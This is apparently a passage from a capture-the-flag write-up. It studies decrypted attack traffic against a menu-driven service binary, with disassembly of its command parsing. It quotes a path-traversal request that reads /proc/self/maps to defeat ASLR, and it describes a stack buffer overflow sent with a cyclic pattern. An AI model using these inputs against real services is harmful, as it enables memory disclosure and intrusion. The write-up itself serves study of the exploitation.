 ```
5) Add social units <count>
6) Add spy units <count>
7) Add shields units <count>
8) Add communication units <count>
9) Add transport units <count>
a) Add computer units <count>
*) Exit
====== FROM 192.168.79.67 ======
736f3551379c27d05df59d85738b54bbf06b6387:a -808
====== FROM 54.76.18.92 ======
Computer units added
====== FROM 54.76.18.92 ======
1) Get informations <name>
2) List units
3) Add medical units <count>
4) Add military units <count>
5) Add social units <count>
6) Add spy units <count>
7) Add shields units <count>
8) Add communication units <count>
9) Add transport units <count>
a) Add computer units <count>
*) Exit
====== FROM 192.168.79.67 ======
7eba53cc457d0025af33e998dd5e642016c7f41f_3Aba
8Ab9Ac0Ac1Ac2Ac3aaaa
[...]
```

### Traffic study

Let's explain a bit the traffic: when data is received by the binary, it is splitted according to a ':' character using sscanf():
```
.text:000017D1                 mov     eax, [ebp+cmd]
.text:000017D4                 mov     [esp+0Ch], eax
.text:000017D8                 lea     eax, [ebp+sha1_recvd]
.text:000017DB                 mov     [esp+8], eax
.text:000017DF                 lea     eax, (asc_27DE - 4000h)[ebx] ; "%[^:]:%[^\n]"
.text:000017E5                 mov     [esp+4], eax    ; format
.text:000017E9                 mov     eax, [ebp+s]
.text:000017EC                 mov     [esp], eax      ; s
.text:000017EF                 call    _sscanf
```

First part is a SHA1 hash, which should correspond to the SHA1 of the second part, which is a command number. There is also an obvious buffer overflow allowing to overwrite past a stack buffer (#VULN1).

Looking at the decrypted traffic, we first notice the exploitation of a second vulnerability (VULN#2) in the "Get Informations" command handler (number 1). This is a path traversal vulnerability, allowing the attacker to retrieve "/proc/self/maps" file to defeat ASLR by knowing where the binary and the libraries are mapped in memory.
```
====== FROM 192.168.79.67 ======
ad627891fd066f3a7c9b613b99c5c0f9c473e7f9:1 ../../../../../../../../proc/self/maps
====== FROM 54.76.18.92 ======
b7422000-b7424000 rw-p 00000000 00:00 0 
b7424000-b7427000 r-xp 00000000 ca:01 132831     /lib/i386-linux-gnu/libdl-2.19.so
b7427000-b7428000 r--p 00002000 ca:01 132831     /lib/i386-linux-gnu/libdl-2.19.so
b7428000-b7429000 rw-p 00003000 ca:01 132831     /lib/i386-linux-gnu/libdl-2.19.so
b7429000-b75d2000 r-xp 00000000 ca:01 132822     /lib/i386-linux-gnu/libc-2.19.so
b75d2000-b75d3000 ---p 001a9000 ca:01 132822     /lib/i386-linux-gnu/libc-2.19.so
b75d3000-b75d5000 r--p 001a9000 ca:01 132822     /lib/i386-linux-gnu/libc-2.19.so
b75d5000-b75d6000 rw-p 001ab000 ca:01 132822     /lib/i386-linux-gnu/libc-2.19.so
```